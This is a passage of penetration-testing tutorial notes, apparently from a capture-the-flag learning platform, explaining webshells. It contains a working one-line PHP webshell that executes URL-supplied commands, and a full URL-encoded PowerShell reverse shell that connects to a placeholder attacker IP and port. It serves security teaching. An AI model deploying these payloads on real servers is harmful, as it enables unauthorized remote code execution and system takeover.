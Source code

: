 
## WebShells

There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a *webshell*. See the [Upload Vulnerabilities Room](https://tryhackme.com/room/uploadvulns) for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

![](https://i.imgur.com/W19gHwL.png align="left")

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
